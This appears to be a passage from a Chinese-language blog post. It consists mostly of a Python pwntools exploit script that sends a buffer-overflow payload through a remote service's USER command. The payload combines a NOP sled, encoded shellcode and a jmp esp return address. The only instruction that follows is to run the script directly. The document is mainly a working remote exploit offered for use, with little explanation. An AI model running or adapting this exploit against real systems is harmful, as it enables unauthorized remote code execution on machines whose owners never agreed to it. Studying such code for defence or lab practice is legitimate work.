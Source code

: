 ```python
#!/usr/bin/env python
# coding=utf-8
# fileName: exp.py
# usage: python exp.py ip port

from pwn import *
import sys

buf =  ""
buf += "\xd9\xcf\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x38\xbd\x61"
buf += "\xa3\x34\xc0\x31\x6a\x17\x83\xc2\x04\x03\x0b\xb0\xd6"
buf += "\x35\x11\x71\xcf\xc2\x81\x8a\x4b\x9c\xea\x94\x9a\xbe"
buf += "\xdf\x91\x52\x71\x2e\x7d\x8d\xf1\xbf\x7d\xae\xaa\x9d"
buf += "\xbf\xa2\x9e\xc3\xb8\x19\x2d\xb1\x2f\xf4\x84\x36\x87"
buf += "\xf6\xba\x8b\x40\xb9\x4c\xd4\x22\x3d\x52\x9e\xd5\xc1"
buf += "\x90\xa3\x45\x37\xb3\x25\xfb\x73\xee\x25\xcf\x9b\x62"
buf += "\xe8\xcf\xf1\xb0\x68\xb2\x6a\xd4\x5f\x3a\xa7\xd4\x0f"
buf += "\x7f\x48\xac\x85\x37\xc1\x8e\x23\xac\x5b\xc1\xa2\x01"
buf += "\xbc\xd1\x12\x28\xad\xfe\x21\xdf\x26\x80\x5a\x27\x53"
buf += "\xc1\x3a\xcf\xe2\x6f\xad\x14\x7e\x86\x66\xef\x6e\x5a"
buf += "\x2c\x96\x87\x8a\xfb\xcc\x24\xf9\x7c\x22\xf3\x29\xfc"
buf += "\xde\x4a\x92\x8c\x50\x18\x01\x1c\x20\x78\x55\xb0\x66"
buf += "\xe1\x19\xed\x07\xa3\x8e\x83\x4c\x77\xe3\x91\x99\xab"
buf += "\xf2\x90\x4d\x2b\x4f\x81\xb6\x3c\x48\x04\x2f\x3b\x6a"
buf += "\x11\x57\xdb\xa8\xfa\x16\x72\x64\xac\xdf\xb2\x94\x21"
buf += "\x26\xc6\x9a\x9e\x48\xef\x37\x1a\x95\xca\xba\xe2\x6c"
buf += "\xb2\x1d\xd2\x8c\x05\xa0\x17\xd4\x43\x1a\x20\xfa\xef"
buf += "\x23\x2a\x2e\x0e\x81\x59\x97\xb8\x4d\x13\xf7\x33\x81"#247 bytes


RHOST = sys.argv[1]
RPORT = int(sys.argv[2])
payload = '\x90'*(2003-len(buf)) #填充为nop
payload += buf #shellcode
payload += p32(0x742d2109)+'\x90'*4 #jmp esp覆盖为返回地址
payload += '\xeb\x0f' #向后跳转15字节
r = remote(RHOST,RPORT)
r.send('USER '+payload+'\r\n')
r.close()
```
然后直接执行exp即可
![09](http://img.blog.csdn.net/20170904163605613?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQva29zdGFydDEyMw==/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)